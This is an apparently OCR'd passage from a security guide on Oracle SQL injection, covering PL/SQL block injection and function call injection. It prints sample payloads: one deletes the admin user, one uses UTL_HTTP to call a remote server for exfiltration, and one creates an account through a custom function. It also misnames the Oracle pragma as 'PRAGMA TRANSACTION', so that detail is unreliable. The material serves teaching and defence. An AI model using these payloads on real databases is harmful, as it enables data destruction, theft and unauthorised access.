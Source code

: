 However, some programming languages or APIs may allow for multiple SQL statements to be executed.PL/SQL and Java applications can dynamically execute anonymous PL/SQL blocks, which are vulnerable to code injection. The following is an example of a PL/SQL block executed in a web
application 

BEGIN ENCRYPT_PASSWORD('bob', 'mypassword'); END;

The above example PL/SQL block executes an application stored procedure that encrypts and saves the user’s password. An attacker will attempt to manipulate the PL/SQL block to execute as – BEGIN ENCRYPT_PASSWORD('bob', 'mypassword'); DELETE FROM users
WHERE upper(username) = upper('admin'); END;

Function Call Injection

Function call injection is the insertion of Oracle database functions or custom functions into a vulnerable SQL statement. These function calls can be used to make operating system calls or manipulate data in the database.The Oracle database allows functions or functions in packages to be executed as part of a SQL statement. By default, Oracle supplies over 1,000 functions in about 175 standard database packages, although only a few of these functions may be useful in a SQL injection attack. Some of these functions do perform network activities which can be exploited. Any custom function or function residing in a custom package can also be executed in a SQL statement.
Functions executed as part of a SQL SELECT statement can not make any changes to the database unless the function is marked as “PRAGMA TRANSACTION”. None of the standard Oraclefunctions are executed as autonomous transactions. Functions executed in INSERT, UPDATE, or DELETE statements are able to modify data in the database.
Using the standard Oracle functions, an attacker can send information from the database to a remote computer or execute other attacks from the database server. Many native Oracle applications leverage database packages which can be exploited by an attacker. These custom packages may include functions to change passwords or perform other sensitive application transactions.
The issue with function call injection is that any dynamically generated SQL statement is vulnerable.
Even the simplest SQL statements can be effectively exploited.
The following example demonstrates even the most simple of SQL statements can be vulnerable. 
Application developers will sometimes use database functions instead of native code (e.g., Java) to perform common tasks. There is no direct equivalent of the TRANSLATE database function in Java, so the programmer decided to use a SQL statement.

SELECT TRANSLATE('user input', '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;

This SQL statement is not vulnerable to other types of injection attacks, but is easily manipulated through a function injection attack. The attacker attempts to manipulate the SQL statement to execute as

SELECT TRANSLATE('' || UTL_HTTP.REQUEST('http://192.168.1.1/') || '', '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;

The changed SQL statement will request a page from a web server. The attacker could manipulate the string and URL to include other functions in order to retrieve useful information from the database server and send it to the web server in the URL. Since the Oracle database server is most
likely behind a firewall, it could also be used to attack other servers on the internal network.


Custom functions and functions in custom packages can also be executed. An example would be a custom application has the function ADDUSER in the custom package MYAPPADMIN. The developer marked the function as “PRAGMA TRANSACTION”, so it could be executed under any special circumstances that the application might encounter. Since it is marked “PRAGMA TRANSACTION”, it can write to the database even in a SELECT statement.
SELECT TRANSLATE('' || myappadmin.adduser('admin', 'newpass') || '', '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;
